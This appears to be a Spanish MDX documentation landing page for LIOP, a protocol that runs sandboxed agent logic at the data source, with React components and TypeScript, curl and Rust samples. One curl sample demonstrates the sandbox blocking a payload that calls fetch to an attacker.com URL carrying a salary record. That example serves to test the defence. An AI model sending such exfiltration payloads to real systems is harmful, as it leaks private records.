

export const LiopBrandHeader = () => {
  const [version, setVersion] = useState("v2.5.0");
  useEffect(() => {
    fetch("https://registry.npmjs.org/@nekzus/liop/latest")
      .then((res) => res.json())
      .then((data) => {
        if (data?.version) setVersion(`v${data.version}`);
      })
      .catch(() => {});
  }, []);

  return (
    

      

        

          
          
        

      

      

        <a href="https://www.npmjs.com/package/@nekzus/liop" target="_blank" rel="noopener noreferrer" className="px-2.5 py-1 rounded-md bg-emerald-500/10 text-emerald-600 dark:text-emerald-400 border border-emerald-500/20 hover:bg-emerald-500/20 transition-colors">
          npm: {version}
        </a>
        <a href="https://github.com/Nekzus/LIOP" target="_blank" rel="noopener noreferrer" className="px-2.5 py-1 rounded-md bg-zinc-100 dark:bg-zinc-800/60 text-zinc-700 dark:text-zinc-300 border border-zinc-300 dark:border-zinc-700/60 hover:bg-zinc-200 dark:hover:bg-zinc-800 transition-colors">
          GitHub: Código Abierto
        </a>
        
          Licencia: Apache-2.0
        
        
          ML-KEM-768
        
      

    

  );
};

export const QuickstartBanner = () => (
  

    

      

        Guía de Inicio Rápido
        
          Despliegue su primer Cliente y Servidor LIOP Zero-Trust en menos de 3 minutos con el SDK oficial de TypeScript.
        
      

    

    

      <a href="/es/getting-started/quickstart" className="px-5 py-2.5 bg-emerald-500 hover:bg-emerald-400 text-zinc-950 rounded-full font-semibold text-sm shadow transition-all duration-200 whitespace-nowrap text-center">
        Comenzar
      </a>
      <a href="https://www.npmjs.com/package/@nekzus/liop" target="_blank" rel="noopener noreferrer" className="px-5 py-2.5 bg-white dark:bg-zinc-800 hover:bg-zinc-100 dark:hover:bg-zinc-700 text-zinc-900 dark:text-zinc-100 border border-zinc-300 dark:border-zinc-700 rounded-full font-semibold text-sm shadow-sm transition-all duration-200 whitespace-nowrap text-center">
        Instalar en NPM
      </a>
    

  

);

export const ProtocolReleaseStrip = () => {
  const [version, setVersion] = useState("v2.5.0");
  useEffect(() => {
    fetch("https://registry.npmjs.org/@nekzus/liop/latest")
      .then((res) => res.json())
      .then((data) => {
        if (data?.version) setVersion(`v${data.version}`);
      })
      .catch(() => {});
  }, []);

  return (
    

      <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round" className="h-4 w-4 shrink-0 text-emerald-500">
        <path d="M12 2v20M17 5H9.5a3.5 3.5 0 0 0 0 7h5a3.5 3.5 0 0 1 0 7H6" />
      </svg>
      
        <strong>LIOP {version} Versión Activa:</strong> Handshake nativo MCP Dual-Era (2026-07-28 y 2025-11-25) con cifrado post-cuántico ML-KEM-768. Consulte el <a href="/es/cookbook/mcp-migration" className="font-semibold underline underline-offset-4 decoration-1 text-emerald-600 dark:text-emerald-400 hover:text-emerald-500 dark:hover:text-emerald-300">Recetario de Migración</a>.
      
    

  );
};

export const UseCaseTabs = () => {
  const [selected, setSelected] = useState(0);
  const useCases = [
    {
      label: "Big Data In-Situ",
      description: "Despacha lógica de filtrado en sandbox directamente a los datos de origen. El modelo recibe exclusivamente un resumen analítico agregado, lo que suprime el tráfico masivo de red.",
      codeExamples: [
        `import { LiopClient } from "@nekzus/liop";

const client = new LiopClient();
await client.connect("127.0.0.1:15021");

// Inyección de lógica en origen mediante envoltura canónica callTool
const result = await client.callTool({
  name: "filter_telemetry",
  arguments: {
    payload: \`@LIOP{wasi_v1,LogAnomalies}
      // Evaluado in-situ en V8 Isolate sobre los registros en reposo
      const anomalies = records
        .filter(r => r.status >= 500 && r.latencyMs > 250)
        .map(r => r.latencyMs);

      return {
        totalAnomalies: anomalies.length,
        p99LatencyMs: anomalies.sort((a, b) => a - b)[Math.floor(anomalies.length * 0.99)] || 0,
        resumen: "Anomalías calculadas en el origen"
      };
    @END\`
  }
});

console.log("Resultado Analítico In-Situ:", result.content[0].text);`,
        `# Invocación in-situ mediante la pasarela Border LIO Gateway HTTP/2
curl -X POST http://127.0.0.1:15018/mcp \\
  -H "Authorization: Bearer $LIOP_OAUTH_TOKEN" \\
  -H "Content-Type: application/json" \\
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "tools/call",
    "params": {
      "name": "filter_telemetry",
      "arguments": {
        "payload": "@LIOP{wasi_v1,LogAnomalies}\\nreturn { errors: records.filter(r => r.status >= 500).length };\\n@END"
      }
    }
  }'`,
        `// SDK nativo de Rust (Alpha): consulte /es/rust-sdk/overview
use liop_client::{LiopRpcClient, CallToolRequest};

let mut client = LiopRpcClient::connect("http://127.0.0.1:15021").await?;
let request = CallToolRequest {
    name: "filter_telemetry".into(),
    arguments: serde_json::json!({
        "payload": "@LIOP{wasi_v1,LogAnomalies}\nreturn records.filter(|r| r.status >= 500).count();\n@END"
    }),
};

let response = client.call_tool(request).await?;
println!("Resultado atestado: {:?}", response.content);`
      ]
    },
    {
      label: "Sandbox Zero-Trust",
      description: "El código inyectado se ejecuta en un entorno V8 aislado donde las funciones del sistema anfitrión (fetch, eval, process) quedan bloqueadas y 11 prototipos nativos se congelan de forma inmutable.",
      codeExamples: [
        `import { LiopServer } from "@nekzus/liop";
import { z } from "zod";

const server = new LiopServer({
  name: "FinancialEnclave_01",
  version: "2.5.0",
});

// Cargar registros sensibles del origen en el entorno seguro V8 Isolate
server.setSandboxData(financialRecords);

server.tool(
  "aggregate_payroll",
  "Calcula totales departamentales sin exfiltrar salarios individuales",
  { payload: z.string() },
  async ({ payload }) => {
    // 25 APIs del host están envenenadas; 11 prototipos permanecen congelados
    return { content: [{ type: "text", text: "RESULTADO_AGREGADO" }] };
  },
  { enforceAggregationFirst: true }
);

await server.connectToMesh({ port: 15021 });`,
        `# Verificación del rechazo del sandbox ante intentos de fuga de datos
curl -X POST http://127.0.0.1:15018/mcp \\
  -H "Content-Type: application/json" \\
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "tools/call",
    "params": {
      "name": "aggregate_payroll",
      "arguments": {
        "payload": "@LIOP{wasi_v1,Leak}\\nfetch(\\"https://attacker.com/leak?data=\\" + records[0].salary);\\n@END"
      }
    }
  }'
# Respuesta: 403 Forbidden [AST_ALLOWLIST_VIOLATION: Identifier "fetch" is poisoned]`,
        `use liop_core::sandbox::{WasiSandbox, SandboxConfig};

let config = SandboxConfig::default()
    .with_fuel_limit(100_000)
    .with_memory_cap(128 * 1024 * 1024);

let mut sandbox = WasiSandbox::new(config)?;
sandbox.freeze_prototypes()?;
let result = sandbox.execute_module(&wasm_bytes)?;`
      ]
    },
    {
      label: "Verificación de Recibos ZK",
      description: "Cada respuesta computacional incluye una prueba criptográfica que asocia el hash AST exacto y el resultado analítico al secreto efímero de sesión resistente a ataques cuánticos (ML-KEM-768).",
      codeExamples: [
        `import { LiopClient } from "@nekzus/liop";

const client = new LiopClient();
await client.connect("127.0.0.1:15021");

const result = await client.callTool({
  name: "compute_risk_score",
  arguments: { accountId: "ACC-9021" },
});

// Los recibos se verifican criptográficamente con los secretos de sesión ML-KEM-768
const isVerified = client.verifier.verifyReceipt(result);
if (!isVerified) throw new Error("Cómputo alterado: recibo ZK inválido");

console.log("Atestación criptográfica válida. Prueba vinculada y confirmada.");`,
        `# Validación de Recibo ZK frente al consenso de notaría
curl -X POST http://127.0.0.1:15018/v1/receipts/verify \\
  -H "Authorization: Bearer $LIOP_OAUTH_TOKEN" \\
  -H "Content-Type: application/json" \\
  -d '{
    "receipt": "0x8f2d9ca4...7b",
    "logicHash": "sha256-e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
    "outputSummary": "{\\"totalAnomalies\\": 14}"
  }'`,
        `use liop_core::crypto::{ZkReceipt, MlKem768SharedSecret};

let proof = ZkReceipt::from_bytes(&response.receipt)?;
let is_valid = proof.verify_hmac_sha256(&shared_secret, &response.payload)?;
assert!(is_valid, "Falló la atestación criptográfica");`
      ]
    },
    {
      label: "Puente MCP Dual-Era",
      description: "Transforma cualquier instancia estándar de @modelcontextprotocol/sdk en un nodo soberano de la malla. Mantiene intactas las definiciones de herramientas y añade inspección PII automática de salida.",
      codeExamples: [
        `import { McpServer } from "@modelcontextprotocol/sdk/server/mcp.js";
import { LiopMcpBridge, PII_PRESETS } from "@nekzus/liop/bridge";
import { z } from "zod";

const legacyServer = new McpServer({
  name: "SupportTools",
  version: "1.0.0",
});

// Las herramientas del servidor original se mantienen intactas
legacyServer.tool("get_customer_history", { customerId: z.string() }, async ({ customerId }) => {
  return { content: [{ type: "text", text: JSON.stringify(db.lookup(customerId)) }] };
});

// Envolver con LiopMcpBridge: publica en la red P2P y activa filtros PII de salida
const bridge = new LiopMcpBridge(legacyServer, {
  publishToMesh: true,
  meshIdentity: "SupportEnclave_01",
  security: {
    forbiddenKeys: ["tax_id", "credit_card"],
    piiPatterns: PII_PRESETS.US_COMPLIANT,
    enableNerScanning: true,
  },
});

await bridge.connect();`,
        `# Conectar clientes de escritorio (Claude / Cursor) mediante stdio
npx @nekzus/liop bridge --stdio --config ./claude_desktop_config.json`,
        `use liop_bridge::McpBridge;

let bridge = McpBridge::new("SupportEnclave_01")
    .with_egress_filter(PiiPreset::UsCompliant)
    .bind_stdio()?;
bridge.run().await?;`
      ]
    }
  ];

  const active = useCases[selected];

  return (
    <section className="mx-auto w-full p-4 sm:p-6 rounded-xl bg-zinc-50 dark:bg-[#0c0e12] border border-zinc-200 dark:border-zinc-800 flex flex-col lg:flex-row gap-4 sm:gap-6 not-prose mb-12 shadow-sm dark:shadow-xl">
      <nav className="flex flex-col lg:w-72 lg:shrink-0" aria-label="Casos de uso">
        <h2 className="text-xs font-semibold mb-3 text-zinc-500 dark:text-zinc-400 uppercase tracking-wider font-mono">
          Paradigmas Centrales del Protocolo
        </h2>
        

          {useCases.map((uc, idx) => (
            <button
              key={uc.label}
              type="button"
              className={`px-3 py-2.5 text-left rounded-lg transition-all duration-200 text-sm font-medium ${
                selected === idx
                  ? "bg-white dark:bg-zinc-800 text-zinc-900 dark:text-zinc-100 border border-zinc-300 dark:border-zinc-700 shadow-sm"
                  : "text-zinc-600 dark:text-zinc-400 hover:bg-zinc-200/60 dark:hover:bg-zinc-850 hover:text-zinc-900 dark:hover:text-zinc-200 border border-transparent"
              }`}
              onClick={() => setSelected(idx)}
            >
              {uc.label}
            </button>
          ))}
        

        

          {active.description}
        

        <a href="/es/concepts/logic-on-origin" className="hidden lg:block mt-auto text-xs underline text-emerald-600 dark:text-emerald-400 hover:text-emerald-500 dark:hover:text-emerald-300 transition-colors pt-3">
          Consultar Especificación Formal →
        </a>
      </nav>

      

        <CodeGroup>
          <pre className="language-typescript" filename="TypeScript">
            <code>{active.codeExamples[0]}</code>
          </pre>
          <pre className="language-bash" filename="cURL / CLI">
            <code>{active.codeExamples[1]}</code>
          </pre>
          <pre className="language-rust" filename="Rust (Alpha)">
            <code>{active.codeExamples[2]}</code>
          </pre>
        </CodeGroup>
      

    </section>
  );
};

export const ArchitectureGrid = () => (
  

    

      <h2 className="text-xl font-semibold text-zinc-900 dark:text-zinc-100">Componentes del Protocolo y Arquitectura</h2>
    

    

      

        
        <a href="/es/typescript-sdk/overview" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          SDK de TypeScript y Puente MCP
        </a>
        

          Runtime de alto rendimiento en Node.js con concurrencia mediante worker pool, enlaces dinámicos de cliente/servidor e integración de servidores MCP legados.
        

      

      

        
        <a href="/es/concepts/zero-trust" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Seguridad Zero-Trust y The Shield
        </a>
        

          Seis capas de defensa en profundidad: Guardian AST, aislamiento V8 Isolate con prototipos congelados, filtro Egress PII en 4 etapas y sellos Recibo ZK.
        

      

      

        
        <a href="/es/concepts/architecture" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Tonic gRPC y Runtime Mesh P2P
        </a>
        

          Multiplexación de transporte binario sobre HTTP/2, descubrimiento de pares Kademlia DHT con rust-libp2p y opciones simétricas de canal keepalive.
        

      

      

        
        <a href="/es/operations/sovereign-deployment" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Enclaves Soberanos y Observabilidad
        </a>
        

          Despliegue tricapa aislado en Docker con Swarm PSK, atestación de hardware en enclaves Nitro TEE y monitoreo con 26 paneles en Prometheus y Grafana.
        

      

    

  

);

<LiopBrandHeader />

## Fundamentos del Protocolo

El **Protocolo Logic-Injection-on-Origin (LIOP)** es una malla de transporte binario descentralizada, diseñada para la comunicación entre máquinas (M2M) en entornos de agentes de inteligencia artificial. En lugar de transferir conjuntos de datos a través de internet hacia modelos remotos, LIOP invierte el flujo computacional: **la lógica WebAssembly en sandbox se ejecuta directamente en el origen de los datos**, y retorna exclusivamente resultados agregados con respaldo de atestación criptográfica.

---

### Límites de Escalamiento en la Extracción de Datos

Los protocolos de integración para agentes, tales como el Model Context Protocol (MCP) y las APIs REST convencionales, operan bajo el esquema de **Context-Pulling**: transfieren registros masivos (auditorías de sistemas, historiales clínicos, libros contables) a través de la red para que un modelo centralizado filtre y analice la información en un servidor externo.

En entornos empresariales de producción, este esquema presenta tres restricciones estructurales:

1. **Sobrecarga de Red y Complejidad ($O(N)$ frente a $O(1)$)**: Transferir tablas completas de bases de datos o flujos de telemetría para resolver una consulta puntual genera un tráfico de red proporcional al volumen de datos almacenado, en lugar de depender de la complejidad de la consulta.
2. **Saturación de la Ventana de Contexto**: Incorporar miles de filas sin procesar en el prompt del modelo degrada la precisión analítica del razonamiento, introduce latencia operativa y multiplica el consumo de tokens.
3. **Restricciones de Soberanía de Datos**: Marcos regulatorios como **HIPAA §164.312**, **PCI-DSS v4.0** y **GDPR Artículo 9** prohíben la exportación de registros no enmascarados fuera de los perímetros físicos y lógicos de almacenamiento.

---

### El Modelo Logic-Injection-on-Origin

LIOP sustituye la extracción de datos por cómputo local mediante un ciclo estructurado de tres etapas:

1. **Inyección de Lógica**: El agente compila su criterio de filtrado o agregación en un micro-módulo WebAssembly o carga AST cuantizada (`@LIOP{...}@END`).
2. **Ejecución In-Situ**: El nodo de origen procesa la lógica contra los datos locales dentro de un entorno WASI aislado, con restricción de variables globales, prototipos congelados y cuotas de cómputo delimitadas.
3. **Atestación y Retorno**: El nodo transmite **únicamente la conclusión agregada**, protegida mediante cifrado post-cuántico **ML-KEM-768** y un Recibo ZK (HMAC-SHA256) que certifica la ejecución íntegra del código.

<CardGroup cols={2}>
  <Card title="MCP Tradicional: Context-Pulling" icon="arrow-down-to-bracket">
    - **Escalamiento:** Transferencia de red lineal $O(N)$ proporcional al volumen total
    - **Consumo de Contexto:** Saturación de tokens por ingesta de datos en crudo
    - **Exposición:** Registros individuales y PII atraviesan la red pública
    - **Garantía:** Cifrado de transporte TLS sin prueba de ejecución computacional
  </Card>
  <Card title="LIOP: Logic-Injection-on-Origin" icon="bolt">
    - **Escalamiento:** Carga de red constante $O(1)$ independiente del tamaño del repositorio
    - **Consumo de Contexto:** Uso mínimo de tokens restringido al resultado consolidado
    - **Exposición:** Cero registros individuales abandonan el enclave soberano
    - **Garantía:** Cifrado post-cuántico ML-KEM-768 con prueba de integridad ZK-Receipt
  </Card>
</CardGroup>

<QuickstartBanner />

<ProtocolReleaseStrip />

<UseCaseTabs />

<ArchitectureGrid />

---

## Contexto Arquitectónico

Las arquitecturas tradicionales cliente-servidor afrontan cuellos de botella severos al integrar agentes autónomos. La transferencia masiva de registros crudos (logs, bases de datos completas, libros contables) sobre HTTP/JSON para que un LLM los procese genera latencia elevada, sobrecostos de red y saturación de la ventana de contexto.

LIOP invierte este flujo de trabajo: **el cómputo se traslada hacia el origen de los datos en lugar de extraer los datos hacia el contexto del modelo.**

<CardGroup cols={2}>
  <Card title="Logic-Injection-on-Origin" icon="bolt">
    En lugar de descargar grandes volúmenes de datos, los agentes compilan su razonamiento en un micro-módulo WebAssembly (`.wasm`) o cierre JavaScript y lo despachan al nodo custodio de la información.
  </Card>
  <Card title="Seguridad Multicapa (Tier-1)" icon="shield-halved">
    Aislamiento en sandbox AST Zero-Trust (WASI), verificación de salida PII mediante algoritmos de conformidad (Luhn, directivas NIST y detectores de patrones) y criptografía post-cuántica.
  </Card>
  <Card title="Autonomía Zero-Shot" icon="brain">
    LIOP orienta a los modelos remotos durante la generación de código. Si una instrucción vulnera las políticas de la sandbox, el servidor responde con retroalimentación estructurada para corregir la carga útil.
  </Card>
  <Card title="Alto Rendimiento Binario" icon="rocket">
    Basado en mensajes compilados con Protobuf multiplexados sobre Tonic (gRPC), lo que suprime la sobrecarga de serialización JSON y reduce el tamaño de carga útil en más del 60%.
  </Card>
  <Card title="Escalabilidad Multinúcleo" icon="microchip">
    El SDK de Node.js implementa un grupo nativo de subprocesos (`piscina`), lo que distribuye el cómputo criptográfico pesado en hilos de trabajo independientes en segundo plano.
  </Card>
  <Card title="Verificación Matemática" icon="signature">
    Recibos criptográficos nativos basados en HMAC-SHA256 (Recibos ZK) que demuestran la fidelidad de la ejecución. La integración directa con entornos ZK-VM se encuentra en la hoja de ruta.
  </Card>
  <Card title="Malla Descentralizada DHT" icon="network-wired">
    Sin autoridades centrales. El descubrimiento de agentes y desarrolladores se ejecuta de forma directa y segura sobre una tabla hash distribuida global basada en `rust-libp2p` Kademlia.
  </Card>
</CardGroup>

---

## Casos de Uso Industriales

El paradigma *Logic-Injection-on-Origin* reordena los flujos convencionales de cómputo distribuido. Al trasladar la lógica aislada a la infraestructura custodia, se neutralizan la latencia de red, los costos de egress y los riesgos regulatorios asociados a la gravedad de los datos.

<CardGroup cols={2}>
  <Card title="Salud y Bioinformática" icon="heart-pulse">
    **Conformidad:** `HIPAA §164.312` · `RGPD Artículo 9`  
    **Impacto:** Análisis sin exfiltración sobre una década de historiales clínicos en múltiples nodos hospitalarios. Filtros WASM computan correlaciones estadísticas en local y emiten conclusiones atestadas sin exponer la identidad de ningún paciente.
  </Card>

  <Card title="Auditoría Financiera y HFT" icon="scale-balanced">
    **Conformidad:** `PCI-DSS v4.0` · `SOC 2 Tipo II`  
    **Impacto:** Detección de fraude en libros contables interbancarios internacionales. Los auditores despachan heurísticas analíticas directamente a los enclaves Nitro seguros, lo que permite evaluar transacciones a velocidad de hardware y devolver únicamente pruebas criptográficas de anomalías.
  </Card>

  <Card title="Computación Perimetral (Edge) e IoT" icon="satellite-dish">
    **Conformidad:** `Protocolos Edge Sub-GHz` · `NIST SP 800-207`  
    **Impacto:** Satélites e instalaciones autónomas generan gigabytes de telemetría por segundo. Watchdogs persistentes en WASM operan en órbita y en pasarelas perimetrales, y emiten alertas gRPC únicamente ante anomalías críticas.
  </Card>

  <Card title="Investigación Farmacéutica Colaborativa" icon="dna">
    **Conformidad:** `Consorcio Soberano Interempresarial`  
    **Impacto:** Consorcios médicos entrenan modelos de aprendizaje automático sobre bases genómicas combinadas sin transferir fórmulas moleculares propietarias. Los enclaves computan gradientes locales y transmiten únicamente pesos cifrados.
  </Card>
</CardGroup>

---

## Próximos Pasos

<CardGroup cols={2}>
  <Card title="Guía de Inicio Rápido" icon="forward-step" href="/es/getting-started/quickstart">
    Despliegue su primer Cliente y Servidor LIOP en menos de 3 minutos con el SDK oficial.
  </Card>
  <Card title="Visión General de Arquitectura" icon="sitemap" href="/es/concepts/architecture">
    Comprenda la articulación entre Kademlia, gRPC y Wasmtime dentro del protocolo Logic-Injection-on-Origin.
  </Card>
</CardGroup>

<script
  type="application/ld+json"
  dangerouslySetInnerHTML={{
    __html: JSON.stringify({
      "@context": "https://schema.org",
      "@type": "SoftwareSourceCode",
      "name": "LIOP, Logic-Injection-on-Origin Protocol",
      "description": "Malla de transporte binario Zero-Trust de alto rendimiento para comunicación de agentes de IA mediante inyección de lógica WebAssembly en el origen.",
      "codeRepository": "https://github.com/Nekzus/LIOP",
      "programmingLanguage": ["TypeScript", "Rust"],
      "runtimePlatform": "Node.js 20+, Wasmtime 29+",
      "license": "https://spdx.org/licenses/Apache-2.0.html",
      "author": {
        "@type": "Organization",
        "name": "Nekzus Solutions",
        "url": "https://github.com/Nekzus"
      }
    })
  }}
/>
